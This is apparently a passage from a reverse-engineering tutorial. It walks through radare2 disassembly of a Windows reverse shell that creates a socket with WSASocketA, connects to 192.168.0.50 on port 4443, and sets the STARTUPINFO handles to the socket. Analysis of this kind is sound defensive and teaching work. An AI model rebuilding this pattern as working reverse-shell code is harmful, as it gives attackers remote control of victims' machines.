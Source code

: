 ````
|           0x004015a2      ba01000000     mov edx, 1
|           0x004015a7      b902000000     mov ecx, 2
|           0x004015ac      488b05bd6c00.  mov rax, qword sym.imp.WS2_32.dll_WSASocketA ; [0x408270:8]=0x848e reloc.WS2_32.dll_WSASocketA
```
arg_228h will be the var containing the socket descriptor.

Note that eventhough we are not using the socket() call here, it's the same (think about retro compatibilitty stuff)

Then as we see htons and inet_addr we can quickly identify ip/port stuff 

```
|           0x004015b5      488985280200.  mov qword [arg_228h], rax   ; [0x228:8]=-1 ; 552
|           0x004015bc      66c785800000.  mov word [arg_80h], 2       ; [0x80:2]=0xffff ; 2
|           0x004015c5      b95b110000     mov ecx, 0x115b
|           0x004015ca      488b05b76c00.  mov rax, qword sym.imp.WS2_32.dll_htons ; [0x408288:8]=0x84b8 reloc.WS2_32.dll_htons
|           0x004015d1      ffd0           call rax
|           0x004015d3      668985820000.  mov word [arg_82h], ax      ; [0x82:2]=0xffff ; 130
|           0x004015da      488d0d1f2a00.  lea rcx, str.192.168.0.50   ; section..rdata ; 0x404000 ; "192.168.0.50"
|           0x004015e1      488b05a86c00.  mov rax, qword sym.imp.WS2_32.dll_inet_addr ; [0x408290:8]=0x84c0 reloc.WS2_32.dll_inet_addr
```
Now we see that 0x10 as well as arg_80h being passed to the socket:
```
|           0x004015e1      488b05a86c00.  mov rax, qword sym.imp.WS2_32.dll_inet_addr ; [0
|           0x004015e8      ffd0           call rax
|           0x004015ea      898584000000   mov dword [arg_84h], eax    ; [0x84:4]=-1 ; 132
|           0x004015f0      488d85800000.  lea rax, [arg_80h]          ; 0x80 ; 128
[...]
|           0x00401625      4889c2         mov rdx, rax
```
0x10 is the size (16) of the sockaddr struct, we can see that easily:

```
[0x00401628]> pxw @ 0x0022fc70
0x0022fc70  0x5b110002 0x3200a8c0 0x005f2e10 0x00000000  ...[...2.._.....
0x0022fc80  0x02020202 0x00000000 0x777a94e3 0x00000000  ..........zw....
```
As you can easily identify: 0x3200a8c0 == 192.168.0.50 in network byteorder. Be aware of that as most malware programs will already have the thing encoded in byte order to try to avoid basic identification mechanisms 

Then the big StartupInfo struct gets initialized:

```
|      |    0x00401690      c74500680000.  mov dword [rbp], 0x68       ; 'h' ; 104
|      |    0x00401697      c7453c010100.  mov dword [arg_3ch], 0x101  ; 257
|      |    0x0040169e      488b85280200.  mov rax, qword [arg_228h]   ; [0x228:8]=-1 ; 552
|      |    0x004016a5      48894560       mov qword [arg_60h], rax    ; [0x60:8]=-1 ; '`' ; 96
|      |    0x004016a9      488b4560       mov rax, qword [arg_60h]    ; [0x60:8]=-1 ; '`' ; 96
|      |    0x004016ad      48894558       mov qword [arg_58h], rax    ; rcx ; [0x58:8]=-1
|      |    0x004016b1      488b4558       mov rax, qword [arg_58h]    ; rcx ; [0x58:8]=-1
|      |    0x004016b5      48894550       mov qword [arg_50h], rax    ; [0x50:8]=-1 ; 'P' ; 80
|      |    0x004016b9      488d45d8       lea rax, [local_28h]
|      |    0x004016bd      488d55e0       lea rdx, [local_20h_2]
|      |    0x004016c1      4889542448     mov qword [local_48h], rdx
|      |    0x004016c6      4889ea         mov rdx, rbp
|      |    0x004016c9      4889542440     mov qword [local_40h], rdx
|      |    0x004016ce      48c744243800.  mov qword [local_38h], 0
|      |    0x004016d7      48c744243000.  mov qword [local_30h], 0
|      |    0x004016e0      c74424280000.  mov dword [local_28h_2], 0
````